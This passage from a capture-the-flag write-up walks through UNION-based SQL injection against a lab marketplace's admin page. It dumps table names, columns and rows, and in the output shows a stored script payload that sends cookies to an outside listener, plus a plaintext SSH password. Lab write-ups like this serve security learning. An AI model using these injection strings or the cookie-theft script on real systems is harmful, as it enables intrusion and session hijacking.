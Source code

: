 Getting the tables inside of 'marketplace':

```
http://10.10.33.229/admin?user=0 union select 1,group_concat(table_name),1,1 from information_schema.tables where table_schema=%27marketplace%27 -- -

User items,messages,users
ID: 1
Is administrator: true 
```

Let's get the columns of each table:

```
http://10.10.33.229/admin?user=0 union select 1,group_concat(column_name, %27\n%27),1,1 from information_schema.columns where table_name=%27items%27 -- -

User 1
User id ,author ,title ,description ,image
ID: 1
Is administrator: true 

http://10.10.33.229/admin?user=0 union select 1,group_concat(column_name, %27\n%27),1,1 from information_schema.columns where table_name=%27messages%27 -- -

User 1
User id ,user_from ,user_to ,message_content ,is_read
ID: 1
Is administrator: true 

http://10.10.33.229/admin?user=0 union select 1,group_concat(column_name, %27\n%27),1,1 from information_schema.columns where table_name=%27users%27 -- -

User 1
User id ,username ,password ,isAdministrator
ID: 1
Is administrator: true 
```

Now we can get the contents of each table:

```
http://10.10.33.229/admin?user=0 union select 1,group_concat(id, %27:%27, author, %27:%27, title, %27:%27, description, %27:%27, image, %27\n%27),1,1 from marketplace.items -- -

User 1
User 1:2:Dell Laptop:Good as new. :867a9d1a2edc2995dca4b13de50fc545 ,2:3:A cactus:Yep, that's a cactus.:abffe546fb4cb740cc6b44f9e4c263df ,3:4:<script>document.location='http://10.13.18.7:4444/?cookie='+document.cookie</script>:<script>document.location='http://10.13.18.7:4444/?cookie='+document.cookie</script>:598815c0f5554115631a3250e5db1719
ID: 1
Is administrator: true 

http://10.10.33.229/admin?user=0 union select 1,group_concat(id, %27:%27, user_from, %27:%27, user_to, %27:%27, message_content, %27:%27, is_read, %27\n%27),1,1 from marketplace.messages -- -

User 1
User 1:1:3:Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ:1 ,2:1:4:Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!:1 ,3:1:4:Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee's browsers.:0
ID: 1
Is administrator: true 

```